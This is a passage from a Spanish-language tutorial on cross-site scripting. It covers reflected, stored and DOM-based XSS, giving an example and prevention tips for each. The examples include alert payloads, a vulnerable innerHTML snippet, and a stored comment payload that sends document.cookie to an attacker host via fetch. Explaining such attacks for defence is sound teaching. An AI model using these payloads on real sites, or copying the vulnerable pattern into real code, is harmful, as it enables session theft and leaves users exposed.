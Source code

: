 ```
https://inseguro.com/status?msg=<script>alert(1)</script>
```

Si la página devuelve:

```html
<p>Status: <script>alert(1)</script></p>
```

el script se ejecuta en el navegador del usuario.

#### 🔒 Prevención:

* Escapar correctamente los datos de entrada.
* Validar y sanear los parámetros recibidos por GET o POST.

### 2. Stored XSS (Persistente)

El script malicioso es almacenado en el servidor (base de datos, logs, etc.) y servido a múltiples usuarios.

#### 🔹 Ejemplo:

Un usuario publica un comentario:

```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

Cuando otro usuario accede a la página de comentarios, el script se ejecuta.

#### 🔒 Prevención:

* Sanitizar datos antes de almacenarlos.
* Escapar al renderizar contenido de usuarios.

### 3. DOM-based XSS

Ocurre cuando el código JavaScript del lado cliente (DOM) usa entradas del usuario sin validación.

#### 🔹 Ejemplo:

```js
let search = location.hash.substring(1);
document.getElementById("output").innerHTML = "Buscaste: " + search;
```

URL maliciosa:

```
https://inseguro.com/#<img src=x onerror=alert(1)>
```

#### 🔒 Prevención:

* Evitar manipular el DOM con datos no confiables.
* Usar `textContent` en lugar de `innerHTML`.

---
